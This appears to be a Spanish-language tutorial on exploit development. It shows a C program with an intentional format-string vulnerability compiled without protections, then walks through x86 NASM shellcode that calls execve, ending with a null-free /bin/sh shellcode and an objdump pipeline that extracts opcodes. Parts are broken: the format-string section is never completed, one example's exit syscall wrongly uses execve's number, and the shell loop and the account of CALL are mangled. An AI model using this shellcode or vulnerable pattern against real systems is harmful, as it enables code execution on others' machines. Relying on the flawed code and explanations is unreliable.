

Vulnerabilidad Format String.
%x Hexadecimal
%s Cadena de caracteres
%p Puntero a direcciones
%d Integer
%u Unsigned Integer
%o Octal
%f Flotante
%c Caracter
n imprimir
Vamos a compilar este código sin algunas protecciones
#include
#include
#include
int main(int argc, char *argv[])
{
int acceso = 0x11223344;
char buffer[32];
fgets(buffer, 32, stdin);
printf(buffer);
if(acceso == 0xdeadbeef) {
printf("lograste la vulnerabilidad de format string\n");
return 0;
} else {
printf("Vuelve a intentar...\n");
exit(EXIT_FAILURE);
}
}
gcc -m32 -z execstack -z norelro -fno-stack-protector -o format1 format1.c
Exit, solo usa un parámetro que es un estatus, 0 es para salir.
Estas funciones tienen su uso en registros, por ejemplo...
execve = eax
filename = ebx
argv = ecx
envp= edx
¿Cómo quedaría entonces?
Ensamblador también se necesita de variables aparte del código, aqui se usan "section .data" y "section .text"... también existe global, etc.
Y los registros para ver como utilizar las funciones, se puede encontrar en este archivo llamado...
/usr/src/kernels/$(uname -r)/arch/x86/include/generated/uapi/asm/unistd_32.h
El archivo puede variar en su locación, así que es mejor buscarlo con find.
#define __NR_exit 1
#define __NR_execve 11
Esas dos definiciones son necesarias, vamos a hacer la primera shell.
nasm -felf shell.nasm section .data filename db '/bin/ls',0 excve db '-lah' section .text global _start _start: mov edx, 0 mov ecx, excve mov ebx, filename mov eax, 11 push edx push ecx push ebx mov ecx, esp int 80h mov ebx, 0 mov eax, 1 int 80h
¿Qué pasó aquí?, vamos a debuggear.
Todo eso lo metemos a la pila, hay que recordar que int 80h ejecuta el syscall de eax, en este momento pusimos 2, el de execve y exit.
En este caso colocamos cada dato en cada registro, pero... ¿porqué poner un push?, para meter en la pila la union de las dos variables.
En ecx, debemos colocar al array, la aplicación y su parámetro, al observar al gdb, podemos ver como metemos a la pila, "ls -lah", si lo vieramos correctamente ahora es así.
execve = eax
filename = ebx
"ls -lah" = ecx
envp = edx
De esa forma se ejecuta la shell... y sale sin problemas, ya que int 80h hace lo mismo con exit... eax, tiene el syscall y ebx tiene el estatus, y listo.
Como sería otra forma de hacerlo... siempre es bueno saber como funcionan lagunas funciones como en este caso... "Call".
Call, tiene algo interesante, cuando se invoca a call, no solo hace un solo movimiento, también se hace un call+1, esto significa que también ejecuta la siguiente intrucción, veamos.
Nota: Haremos uso de hexadecimales para convertir caracteres, para hacerlo rápido, en linux hay un manual muy bueno, solo hay que escribir en la terminal... "man ascii".
Este sería el segundo ejemplo.section .text global _start _start: jmp hacia_call perfecto: pop ecx mov eax, 11 mov edx, 0 push 0 push 0x736c2f push 0x6e69622f mov ebx, esp push edx push ecx push ebx mov ecx, esp int 80h mov ebx, 0 mov eax, 11 int 80h hacia_call: call perfecto db '-lah'
El ejemplo es el mismo, la diferencia es que ahora usamos un método diferente, esta vez utilizamos call.
¿Qué hacemos?, muy sencillo, hacemos un jmp para evitar ejecutar la parte del código que hará la shell, y ponemos un call+1, eso significa que irá hacia una dirección pero se llevara consigo a db '-lah'.
Pop es utilizado para retroceder en la pila, pero también se puede guardar información en algun registro... cuando hacemos call, se guarda en la pila '-lah', al hacer pop ecx, le decimos que saque de la pila esos datos y los guarde en ecx... para quedar así.
execve = eax
filename = ebx
argv = ecx
envp= edx
Lo demás es la repetición de la primera parte del anterior ejemplo, pero esta vez metemos en la pila '/bin/ls', en hexadecimales, y metemos eso en ebx, al final queda igual.
execve = eax
filename = ebx
"-lah" = ecx
envp = edx
Despues...
execve = eax
filename = ebx
"/bin/ls -lah" = ecx
envp = edx
Listo.
Hagamos una shellcode para la consola.
Si ya entendieron el concepto, esto es muy sencillo.
section .text global _start _start: xor ecx, ecx push ecx push 0x68732f2f push 0x6e69622f mov ebx, esp xor eax, eax push 0xb pop eax int 80h
Con xor lo unico que hicimos fue quitar los null, que puedan perjudicar la shell.
Vamos a revisar si sirve como shellcode, lo ejecutamos y vemos que hace una nueva shell, si parece que no paso nada, escribe exit y veras como sales de la nueva consola que se hizo, si se cierra la terminal completa significa que algo está mal.
Otra forma de hacerlo es con C
for i in objdump -d ./programa|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
Sacamos los opcode y los metemos en un programa en C.
objdump -M intel -d programa
Hay que recordar que una shell no es siempre igual para cada arquitectura, hay pequeños cambios que pueden hacer o no funcionar la ejecución de la shellcode, a veces hay que investigar diferentes métodos, a veces vienen complicaciones por la diferencia de 32 bits y 64 bits, hay que compilar tanto en ASM como en otro lenguaje en 32bits, para 64 bits no es mucha la diferencia, lo complicado es los null's que pueden interrumpir una ejecución y 64bits puede aumentar esa probabilidad de un null que no permita una ejecución exitosa.
En 64bits puede cambiar, pero solo hay que modificar los registros por rax, rbx, rcx, rdx, y rsp... en push ya no es necesario repartilo en 4 bytes, ya se pueden usar 8 (0x68732f2f6e69622f), etc.